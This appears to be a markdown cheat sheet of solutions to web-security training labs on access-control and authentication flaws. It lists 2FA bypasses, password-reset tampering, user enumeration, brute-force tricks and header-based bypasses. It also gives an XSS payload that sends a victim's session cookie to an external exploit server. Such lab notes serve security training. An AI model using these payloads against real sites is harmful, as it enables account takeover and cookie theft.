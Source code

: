 Look for potential IDORs and some additional response fields from servers
### Exploits
1. User role can be modified in user profile  
When changing e-mail, check for roleid in response  
Add it to your request and change it to 2  
Also if it doesn't work, brute numbers from 0 to 100  
2. URL-based access control can be circumvented  
```
X-Original-Url: /admin
```
## Authentication
Use Burp's usernames and paswords dictionaries  
## Exploits
1. Simple 2FA Bypass  
```
Just try to access the next endpoint directly (you need to know the path of the next endpoint) e.g. /my-account
If this doesn’t work, try to change the Referrer header as if you came from the 2FA page 
```
2. Password reset broken logic  
Change username in POST request after password-reset link
```
temp-forgot-password-token=MgFMne17hOm2WM5BMHyVzvEewBFOwnyc&username=carlos&new-password-1=w&new-password-2=w
```
3. User Enumeration with Different Responses  
Just look at difference in responses
4. User Enumeration with Different Response Time  
Just look at difference in response time  
Also for this lab you need to set X-Forwarded-For header to bypass login restrictions
5. Broken brute-force protection, IP block  
You can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached. For example create a combined list with your valid credentials and with victim's creds:
```
wiener - peter
carlos - kek
carlos - kek2
wiener - peter
carlos - kek3 etc...
```
6. Username enumeration via account lock  
It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.  
To brute password use grep with errors to find a request without error
7. 2FA broken logic  
Observe there is verify=wiener in cookie while sending 2FA code  
Change it to our victim's nickname and simply brute 2FA code
8. Brute-forcing a stay-logged-in cookie  
Observe stay logged in function. Check cookie and observe that it is base64 encoded version of USERNAME:(md5)PASSWORD  
Create a list of md5 hashed passwords and brute cookies
9. Offline password cracking  
Steal cookie in comment section via XSS: 
```
<script>document.write('<img src="https://exploit-server?c='+document.cookie+'" />');</script>
```
Crack MD5 hash via john the ripper or web services
10. Password reset poisoning via middleware  
While processing forgot password set new header:
```
X-Forwarded-Host: exploit-server 
```